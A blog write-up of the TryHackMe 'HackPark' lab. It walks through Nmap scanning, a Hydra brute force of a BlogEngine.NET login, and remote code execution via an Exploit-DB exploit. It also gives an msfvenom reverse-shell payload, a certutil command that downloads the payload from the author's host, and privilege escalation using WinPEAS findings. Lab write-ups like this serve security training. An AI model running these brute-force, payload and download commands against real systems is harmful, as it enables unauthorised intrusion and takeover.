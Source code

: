 ```yaml
---
layout: post
title:  "TryHackMe - HackPark Writeup"
date:   2021-11-02 12:52:00 -0400
categories: tryhackme pentesting cybersecurity
---
```


[HackPark](https://tryhackme.com/room/hackpark) is a Medium difficulty room, although it guides you along fairly well for the initial foothold, and it's pretty easy to root if you do proper basic enumeration.

## Initial Enumeration
The first step in any pentest situation is enumeration. It's important to get as much information about the machine and its users as possible. To start off, we'll use Nmap to perform a port scan and see what services are active and listening on the box. Nmap is a versitle tool, and many people have their own preferred methods to balance speed and accuracy, but here are the options I'll use.

- `-sC`: Run default scripts. Nmap can do additional enumeration beyond just checking for open ports, and this option will run some quick and useful extra scans to give us even more information about what we're working with.
- `-sV`: Run version detection. Knowing what specific version of a service is in use can help with finding potential vulnerabilities, or ruling them out.
- `-v`: Be verbose. This outputs extra information to the console as the scan runs, the most useful of which are status updates and showing open ports as it finds them.
- `-oN`: Output to a file in the Nmap format. Having a file to refer back to intead of having to scroll through console output is very useful. Nmap can save to a variety of file formats, and you may have reasons to use them, but for me just the normal plain-text format is enough.
- `-Pn`: Don't use `ping` for host detection. This machine doesn't respond to ping, so to get Nmap to scan it at all, we need to use this option.

Using these options, we're left with the following command:
```bash
nmap -sC -sV -vv -Pn -oN nmap-initial.txt 10.10.97.88
```

This machine is surprising quiet considering it's a Windows machine. We get two open ports: 80 and 3389. Nmap detects port 80 running Microsoft IIS and 3389 hosting Remote Desktop.

Investigating the web server on port 80, we find a simple blog with a single post. A little bit of poking around reveals that the site is powered by ASPX, which is pretty common for an IIS server. The site seems to be powered by [BlogEngine.NET](https://blogengine.io/).

## Brute Force
There's a login form accessible from the site's main menu, so we'll try a brute force attack against that to see if the password happens to be vulnerable. Usernames are revealed by BlogEngine through a feature that lets you see all posts by a specific user. The username appears to be "Admin", which would have been an easily guessable username anyway.

We'll use [Hydra](https://github.com/vanhauser-thc/thc-hydra) for our brute force attack. There's a lot of junk we need to tack onto the requests we send to the form, but the main points to note are that `ctl00%24MainContent%24LoginUser%24UserName` is the username field and `ctl00%24MainContent%24LoginUser%24Password` is the password field. We know the password was wrong if we get a "Login failed" message, so we'll tell Hydra to look for that string.

```bash
hydra -l Admin -P /usr/share/wordlists/rockyou.txt 10.10.97.88 http-post-form '/Account/login.aspx?ReturnURL=/admin/:__VIEWSTATE=E2OPdwooQYKBe3hHmFyHa%2Bf42FNOA%2B0i3IfPFd2E6QX4ZFLFHeNhaurK%2BkcrI5TnLLXMiFxKO8IoF2PNUe4yxUE00Ypa1Fw9vUIoNSabbCRy2tPdaEfUccXF3nsmyHtUxFdrxb6w%2FLJ5tv5p5Uo5e4FqjE6fJOA3%2FYKOPDlZ9V38FMGP&__EVENTVALIDATION=x4B7wKhqtjq9qtvOm0hyFmAk48Vm4da4a79DWyJ1XRt6%2BGfR%2BQEE2Pfw9lQ7O0mrmbTenxGMb8si9MEfKGEXDxVPHW99J1XBzWlK7G5Hl11sx5J9sWQwIwtNAFx8skqv9lVGaynV%2BGp5CV81h3etCvc60o8Yu0m5nCeTk2o5BNZTNaEx&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login failed'
```

Hydra sucessfully finds the password for us, giving us access to the site's admin panel.

## Remote Code Execution
The "About" section gives us a version number of 3.3.6.0. Conveniently, there happens to be [a useful vulnerability with an exploit available on Exploit-DB](https://www.exploit-db.com/exploits/46353). The author was kind enough to give fairly detailed instructions within the script.

Following the instructions in the exploit, we'll set our attacking machine's IP in the script and use BlogEngine's post editor to upload it as `PostView.ascx`. Then we'll leverage a path traversal vulnerability to get BlogEngine to execute our code and give us a reverse shell. We land as a lowly IIS worker user.

This particular Windows reverse shell really sucks and is supposedly unstable, so upgrading to something a bit more attacker-friendly would be nice. We'll throw together an MSFVenom payload to give us a nice Meterpreter shell.

```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.13.14.52 LPORT=9001 -f exe > shell.exe
```

Unfortunately, getting PowerShell to work through this garbage shell is more work than I care to put in, so we'll try out the Certutil method for downloading our file to the target machine ([Thanks, HackTricks](https://book.hacktricks.xyz/windows/basic-cmd-for-pentesters#download)).

```
certutil.exe -urlcache -split -f "http://10.13.14.52:8000/shell.exe" shell.exe
```

## Privilege Escalation
To give us a good starting point, we'll try running WinPEAS on the machine and see what it can find for us. A handful of interesting results come back.

```
    Some AutoLogon credentials were found
    DefaultUserName               :  administrator
    DefaultPassword               :  *************
```

```
    AWSLiteAgent(Amazon Inc. - AWS Lite Guest Agent)[C:\Program Files\Amazon\XenTools\LiteAgent.exe] - Auto - Running - No quotes and Space detected
    AWS Lite Guest Agent
   =================================================================================================
```

```
    WindowsScheduler(Splinterware Software Solutions - System Scheduler Service)[C:\PROGRA~2\SYSTEM~1\WService.exe] - Auto - Running
    File Permissions: Everyone [WriteData/CreateFiles]
    Possible DLL Hijacking in binary folder: C:\Program Files (x86)\SystemScheduler (Everyone [WriteData/CreateFiles])
    System Scheduler Service Wrapper
   =================================================================================================
```

The unquoted service path lands in a folder we probably don't have access to, so it's unlikely that we'll be able to take advantage of that. The DLL hijack is promising, but will also take a bit of legwork to set up. The AutoLogon credentials are the most baindead easy possibility of getting access, so we'll try those first. 

![Order 66](/assets/images/order-66.png)

Surprisingly, it just works, and we end up with an admin RDP session. From there we're able to grab both of the flags without issue.

The intended method is using write access to the SystemScheduler folder to overwrite an executable and get a second reverse shell (technically an EXE hijack as opposed to a DLL hijack), but the RDP method is just so much more painless.